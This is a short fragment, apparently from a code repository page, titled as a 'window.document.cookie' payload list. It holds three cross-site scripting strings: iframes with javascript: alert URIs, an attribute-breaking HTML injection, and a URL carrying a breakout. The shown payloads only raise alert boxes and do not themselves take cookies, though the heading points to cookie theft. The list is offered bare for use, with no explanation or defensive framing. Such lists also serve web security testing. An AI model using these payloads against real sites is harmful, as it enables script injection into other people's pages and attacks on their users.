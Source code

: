 #### window.document.cookie Payload List :

```











<iframe src="javascript:alert('XSS by \nxss');"></iframe><marquee><h1>XSS by xss</h1></marquee>
"><h1><IFRAME SRC="javascript:alert('XSS');"></IFRAME>">123</h1>
http://66.102.7.147/">XSS













